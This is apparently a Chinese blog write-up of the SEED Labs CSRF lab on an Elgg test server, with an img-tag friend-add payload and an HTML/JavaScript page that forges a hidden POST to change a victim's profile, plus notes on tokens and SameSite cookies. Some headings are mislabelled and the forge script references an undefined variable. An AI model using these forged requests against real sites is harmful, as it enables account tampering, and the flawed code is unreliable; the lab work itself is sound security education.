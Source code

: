 ```yaml
---
layout:     post
title:      "CSRF"
date:       2020-08-01 00:00:00 +0800
categories: 实验
tags:       seedlab csrf
summary:    "本文为 SEED Labs 2.0 - Cross-Site Request Forgery Attack Lab 的实验记录，介绍了如何利用 CSRF 攻击加好友和修改用户资料，并探讨了相应的防御措施。"
series:     SEEDLabs
series_index: 3
---
```


本文为 [SEED Labs 2.0 - Cross-Site Request Forgery Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_CSRF_Elgg/) 的实验记录。

## 实验原理

在客户机和服务器之间进行请求-响应时，两种最常被用到的方法是 GET 和 POST。

- ***GET*** - 从指定的资源请求数据
- ***POST*** - 向指定的资源提交要被处理的数据

## Task 1: Defeating XSS Attacks Using CSP

修改 `/etc/hosts`

```shell
sudo vim /etc/hosts
```

更改为

```plaintext
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com
```

然后启动 docker

```shell
dcbuild
dcup
```

访问 [www.seed-server.com](www.seed-server.com)。

打开 Header live 插件，例如登陆时能看到如下请求。

![Defeating XSS Attacks Using CSP](/assets/post/images/csrf1.webp)

这个内容很简单，不再赘述。

## Task 2: Defeating XSS Attacks Using CSP

我们需要加 Alice 为好友。登录 Samy 账号，点进 Alice 主页，点击 Add friend

![Defeating XSS Attacks Using CSP](/assets/post/images/csrf2.webp)

可以看到加好友的方法为 `GET`， url 为 `http://www.seed-server.com/action/friends/add?friend=user id&cookie等`。这里 user id 就是 Alice 的 id。要想让 Alice 加自己，就需要知道自己的 id。

去往 members 页面，<kbd>F12</kbd>查看列表，可以看到用户 id 都被直接明文存储了。

![Defeating XSS Attacks Using CSP 明文存储](/assets/post/images/csrf3.webp)

我们找到自己的 user id 为 59。这里按照手册，应当去修改 seedlabs 给我们的网页。但其实根本没有必要，我们只需要编辑个人资料，内容如下。

```html
<img src="http://www.seed-server.com/action/friends/add?friend=59">
```

![Defeating XSS Attacks Using CSP 编辑个人资料](/assets/post/images/csrf4.webp)

`<img>`会自动发送 `GET` 请求。现在登录 Alice 的账号，点进 Samy 的个人资料，可以看到，已经自动加了好友。

![Defeating XSS Attacks Using CSP 结果](/assets/post/images/csrf5.webp)

## Task 3: CSRF Attack using POST Request

我们需要修改 Alice 的 profile。登录 Samy 账号，我们先试着修改自己的 profile。保存后看到发出了如下请求：

![CSRF Attack using POST Request](/assets/post/images/csrf6.webp)

可以看到修改 profile 方法为 `POST`，url 为 [http://www.seed-server.com/action/profile/edit](http://www.seed-server.com/action/profile/edit)

我们要整一个网页来执行我们的 javasrcipt，编辑 `editprofile.html`

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element
    var form = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "POST";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post(); }
</script>
</body>
</html>
```

然后修改 profile 如下所示，并添加 [www.attacker32.com/editprofile.html](www.attacker32.com/editprofile.html) 的链接。

![CSRF Attack using POST Request 编辑个人资料](/assets/post/images/csrf8.webp)

登录 Alice 账号，假设她闲得慌，点了 Samy 主页的那个链接

![CSRF Attack using POST Request 点击链接](/assets/post/images/csrf9.webp)

可以看到，profile 就被自动改掉了。

![CSRF Attack using POST Request 结果](/assets/post/images/csrf10.webp)

> **Question 1:** The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets
> Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know
> Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe
> how Boby can solve this problem.

我们在 Task 2 已经展示过了如何找到 user id。

> **Question 2:** If Boby would like to launch the attack to anybody who visits his malicious web page.
> In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF
> attack to modify the victim’s Elgg profile? Please explain.

不可以。注意到，我们修稿 profile 是需要用户的 user id 的，显然大家的 user id 各不相同。

## Task 4: Enabling Elgg’s Countermeasure

进入 `image_www/elgg` 文件夹，编辑 Csrf.php。注释掉第 69 行的 return。

编辑 editprofile.html，让 Alice 修改资料为 Samy is really my hero。

登录 Alice 账号，点击 Samy 主页的链接

![Enabling Elgg’s Countermeasure 结果](/assets/post/images/csrf11.webp)

可以看到，由于验证 cookie，Alice 的 profile 不再可以改变。且因为请求失败就会刷新网页，刷新后再次请求，这个网页在疯狂地循环刷新。

## Task 5: Experimenting with the SameSite Cookie Method

访问 [www.example32.com](www.example32.com)。然后点击各个按钮。

可以看到，对于 same-site request，有 cookie-strict；而 cross-site request 没有。

SameSite cookies 的作用就是限制第三方 cookie，减少安全风险。如果我们想要使用 SameSite cookies，应当设置为 Lax 规则（strict 也可以，但用户体验极差），具体限制内容见下表：

| 请求类型  | Lax         |
| --------- | ----------- |
| 链接      | 发送 Cookie |
| 预加载    | 发送 Cookie |
| GET 表单  | 发送 Cookie |
| POST 表单 | 不发送      |
| iframe    | 不发送      |
| AJAX      | 不发送      |
| Image     | 不发送      |

这样除了导航到目标网址的 GET 请求外，将不会发送 cookie。

## 实验总结

实验原理简单，操作也很简单，没有难度。
